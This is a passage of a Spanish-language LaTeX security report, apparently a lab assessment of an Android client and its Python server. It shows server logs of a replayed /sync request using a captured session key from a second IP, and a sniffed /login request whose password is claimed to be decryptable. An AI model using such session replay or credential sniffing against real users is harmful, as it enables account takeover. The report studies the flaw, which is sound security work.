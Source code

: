 \documentclass[11pt, a4paper, twoside]{article}
\begin{document}
\begin{figure}[H]
\begin{Verbatim}[frame=single,fontsize=\small]
192.168.0.103 - - [22/Feb/2015 17:40:58] "POST /sync?email=test2%40test.com
&session_key=q%2BlY0j%2FmskTx4GC%2F73sgkg%3D%3D HTTP/1.1" 200 -
192.168.0.8 - - [22/Feb/2015 17:41:00] "POST /sync?email=test2%40test.com
&session_key=q%2BlY0j%2FmskTx4GC%2F73sgkg%3D%3D HTTP/1.1" 200 -
\end{Verbatim}
\caption{Output producido en el servidor de python luego del request}
\label{fig:sync-simulado3}
\end{figure}

Además, en  podemos apreciar el output producido en la consola del servidor, en donde figuran ambos requests, el original producido por el cliente de android (\textbf{IP 192.168.0.103}), y el fraudulento, producido por la \textbf{IP 192.168.0.8}. Ambos son respondidos con un HTTP 200, lo que significa que las sesiones no recuerdan la IP desde la que fueron producidas, lo que en este caso nos permite robar una sesión, simplemente capturando su \texttt{session\_key}. Es decir, hacernos pasar por el usuario, con todas las implicancias que eso conlleva.

\subsubsection{Adicional: Robo de credenciales (password)}
Además de poder secuestrar la sesión de un usuario, si logramos capturar un request /login, entonces vamos a poder desencriptar la password del usuario.

\begin{figure}[H]
\begin{Verbatim}[frame=single,fontsize=\small]
POST /login HTTP/1.1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.1.2; sdk Build/MASTER)
Host: 192.168.0.103:8888
Connection: Keep-Alive
Accept-Encoding: gzip
Content-Length: 86

email=test2%40test.com&password=wmw%2Ba1kdbW5UIt3Dg1fesg%3D%3D%0A&uuid=000000000000000
\end{Verbatim}
\caption{Request \textbf{\color{red}/login} del cliente BadBrowser}
\label{fig:sniffer-login}
\end{figure}

%
%
\clearpage
\end{document}

